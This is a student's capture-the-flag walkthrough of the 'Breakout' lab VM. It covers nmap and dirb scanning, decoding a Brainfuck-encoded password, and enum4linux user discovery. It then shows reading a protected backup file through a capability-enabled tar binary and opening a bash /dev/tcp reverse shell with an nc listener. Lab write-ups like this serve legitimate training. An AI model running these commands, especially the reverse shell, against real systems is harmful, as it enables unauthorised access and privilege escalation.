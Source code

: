 LAB BREAKOUT
Name: Tran Le Anh Quan
Step 1: download from vulhub then run the machine on Vmware
 
Step 2: Then after have machine ID, the next step is find out available port and service on machine. We will use nmap to do this. Command used : nmap 192.168.1.16 -p- -sV
 
As we can see, port 80,139,445,10000 and 20000 opened and we had http and netbios-ssn service.
Step 3: try to open the web of this ip ( port 80) , we have this
 
This mean, http service is enabled on the apache service but the webroot might be different, so we need to find out the correct path behind the port to access the web application.
To scan , we can use dirb tool to brute force and use this command 
dirb http://192.168.1.16
 
At http://192.168.1.16, if we look at the html source we will see this
 
The encrypted password is  : 
++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>++++++++++++++++.++++.>>+++++++++++++++++.—-.<++++++++++.———–.>———–.++++.<<+.>-.——–.++++++++++++++++++++.<————.>>———.<<++++++.++++++.
After research google , we can define that this is encode using brainfuck language. Then, find a tool to decrypt it
 
Password : .2uqPEfj3D<P’a-3
Then try to open the target machine on port 20000
 
There was a login page for user admin.  To find out username we can use enum4linux tool to find out username
Command : enum4linux -a 192.168.1.16
 
After scan, we have this username  
Then try it on web
 
Then it work
 
Open the web command 
 
 
We ran the ‘id’ command to check the user information. We have terminal access as user ‘cyber’ as confirmed by the output of the ‘id’ command. We used the ls command to check the current directory contents and found our first flag. The flag file named ‘user.txt’ is given in the previous image. In the next step, we will be taking the command shell of the target machine.
 
Cd to var, then in var, we can see a folder name backup, go to it cd backups
 
You can see .old_pass, but you can’t read it.
Go back to home cd /home/cyber
Here you can see tar and user.txt. 
Run this command : getcap tar we have this 
 
 
Then run this command   ./tar -cf bak.tar /var/backups/.old_pass.bak to create a file bak.tar
 
 
Then  tar -xf bak.tar we can see folder var
Now go to it and read out  old_pass.bak
 
 we have password but we can’t get in 
So go to Reverse Shell Cheat sheet and use this command : bash -i >& /dev/tcp/10.12.31.95/4242 0>&1 
This is my ip
 
And on our machine using nc -lvnp 4242
 
Then we can login with the password below
 


